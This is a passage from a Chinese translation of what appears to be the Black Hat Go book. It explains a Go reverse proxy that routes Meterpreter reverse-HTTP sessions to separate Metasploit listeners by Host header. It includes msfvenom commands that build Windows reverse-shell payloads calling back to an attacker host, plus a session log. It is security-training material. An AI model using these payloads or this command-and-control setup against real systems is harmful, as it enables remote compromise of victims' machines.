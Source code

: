 代码 4-10: 多路复用 Meterpreter \([https://github.com/blackhat-go/bhg/ch-4/multiplexer/main.go/](https://github.com/blackhat-go/bhg/ch-4/multiplexer/main.go/)\)

首先注意的是导入 `net/http/httputil` 包，其含有帮助创建反向代理的功能。这样就不用从头开始创建了。

导入包后，定义了一对map类型的变量。先使用第一个 `hostProxy` 将主机名映射到Metasploit监听器的URL，希望将该主机名路由到该监听器。记住，基于代理在HTTP请求中收到的Host报头。维护该映射是确定目标的一种简单方法。

定义的第二个变量 `proxies` 也使用主机名作为key。然而，map中相应的值为 `*httputil .ReverseProxy` 类型的实例。也就是路由到的真实的代理实例，而不是目标的字符串形式。

注意点硬编码了这些信息，这不是管理配置和代理数据的最优雅方式。更好的方式是将这些信息存储在外部的配置文件中。

使用 `init()` 函数来定义域名和目标Metasploit实例之间的映射。本例中，将所有Host报头值为 `attacker1.com` 的请求路由到 `http://10.0.1.20 :10080`，将所有Host报头值为 `attacker2.com` 的请求路由到 \`[http://10.0.1.20](http://10.0.1.20) :20080。当然，实际上还没有执行路由；这仅创建了基本的配置。注意，这些地址对应于之前为Meterpreter监听器使用的ReverseListenerBindAddress和ReverseListenerBindPort值。

接下来，仍然在 `init()` 函数中，循环遍历 `hostProxy` map，解析终点地址来创建 `net.URL` 实例。调用 `httputil.NewSingleHostReverseProxy (net.URL)` 时将该实例传入，该函数是从URL创建反向代理的辅助函数。更好的是，`httputil.ReverseProxy` 类型符合 `http.Handler` 实例，也就是可以使用创建的代理实例作为路由的处理函数。在 `main()` 函数中，创建路由，然后循环遍历所有的代理实例。回想下该map的键为主机名，值是 `httputil.ReverseProxy` 类型。对于map中的每一对 key/value，在路由上添加匹配函数。Gorilla MUX工具包的路由类型包含一个名为Host的匹配函数，该函数接受一个主机名来匹配传入请求中的Host 报头。对于每一个要检查的主机名，告诉路由使用相应的代理。对于一个复杂的问题来说，这是一个非常简单的解决方案。

通过启动服务来完成程序，绑定到80端口。保存并启动该程序。由于绑定到特别的端口，因此需要作为特别的用户执行此操作。

至此，已经有了两个正在运行的Meterpreter反向HTTP监听器，现在也应该有一个运行中的反向代理。最后一步是生成测试来检验代理是否工作。使用和Metasploit一起发布的负载生成工具 `msfvenom` ，来生成一对Windows可执行文件:

```text
$ msfvenom -p windows/meterpreter_reverse_http LHOST=10.0.1.20 LPORT=80 HttpHostHeader=attacker1.com -f exe -o payload1.exe
$ msfvenom -p windows/meterpreter_reverse_http LHOST=10.0.1.20 LPORT=80 HttpHostHeader=attacker2.com -f exe -o payload2.exe
```

生成了两个文件：_payload1.exe_ 和 \*payload2.exe 。请注意，除了文件名之外，两者之间的惟一区别是 `HttpHostHeader` 值。这确保产生的负载使用特定的Host报头发送HTTP请求。也要注意，LHOST 和 LPORT 的值对应于反向代理的信息，而不是Meterpreter监听器。将生成的可执行文件传输到Windows系统或虚拟机。当执行该文件时，会有两个新的 sessions 创建：一个绑定在10080端口的监听器，一个是绑定在20080端口的监听器。应该是下面这样：

```text
>
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Redirecting stageless connection from /pxS_2gL43lv34_birNgRHgL4AJ3A9w3i9FXG3Ne2-3UdLhACr8-Qt6QOlOw PTkzww3NEptWTOan2rLo5RT42eOdhYykyPYQy8dq3Bq3Mi2TaAEB with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0;
rv:11.0) like Gecko'
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (10.0.1.20:10080 -> 10.0.1.20:60226) at 2020-07-03 16:13:34 -0500
```

如果使用tcpdump或Wireshark查看发送到端口10080或20080的网络流量，应该看到，反向代理是与Metasploit监听器通信的唯一主机。还可以确认Host报头被适当地设置为 `attacker1.com` （用于端口10080上的监听器）和 `attacker2.com` （用于端口20080上的监听器）。

就是这样。做到了！现在提高一点。作为练习，我们建议您更新代码以使用分段的负载。这可能会有额外的挑战，因为需要确保这两个阶段都正确地路由到代理。此外，尝试通过使用HTTPS而不是明文的 HTTP来实现。这将提高您在以有用、恶意的方式在代理流量方面的理解和有效性。

## 总结

在前两章中通过实现客户端和服务端完成了HTTP之旅。在下一章，将专注于DNS，这是一种对安全从业人员同样有用的协议。实际上，几乎复制这个HTTP多路复用示例来使用DNS。

